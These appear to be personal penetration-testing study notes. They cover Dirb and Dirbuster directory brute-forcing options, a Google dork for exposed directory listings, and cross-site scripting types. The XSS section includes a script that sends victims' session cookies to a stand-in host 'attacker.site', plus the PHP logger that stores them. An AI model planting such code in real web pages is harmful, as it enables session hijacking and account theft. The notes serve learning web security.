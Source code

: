 
The shell should have same permissions as the webserver it runs on


## Dirbuster/ Dirb(cli version)
Dirbuster:
Javaapp. Pretty intuitive. has recursive scans advanced options and pure brutefore without list
Can also specify layer to fuzz instead of starting at root directory ie can do /afterlogin/start instead of /

Dirb
Basic command line stuff
-X can provide extension (can be anything u wanna add at the end of what ure using like .php .exe or even ?commad = bruteforced )
-H give a custom header "Myheader:Headersmt"
-a give a specific user-agent to prevent incompatible stuff (ie specify the firefox browser being used)
-u provide authentication ("admin:password1234")
-p using a proxy example burpsuite -p http://127.0.0.1:8080 -c "COOKIE:XYZ"

Google Dorks
#searchhacks
![[Pasted image 20221030180119.png]]
Perform complex search requests like:
-inurl:(htm|html|php|asp|jsp) intitle:"index of" "lastmodified " "parent directory" txt OR doc OR pdf


# Cross Site Scripting
#xss

Look at every possible user input. GET and POST
Burpsuite helps alot to run tru the res of each req (repeater)

<u>Reflected /  Persistent / DOM based </u>
Reflected
Site shows the effect of the scirpt
Eg Inserting `<script>alert(7*7)</script>`
 Anti XSS filters exist that can be bypassed

Persistent XSS
Stored in the server and shown on the site (Like in their comments/posts/pictures etc)
Code gets executed each time page is viewed.
Can be used to run scripts that return seesion cookies allowing unauthenticaed access to user sessions. <script>alert(document.cookie) </script>
```html
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+documetn.cookie; 
</script>
```
 On the attackers site
```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename,'a');
$cookie=$_GET ['q'];
fwrite ($fp,$cookie);
fclose($fp);
?>
```
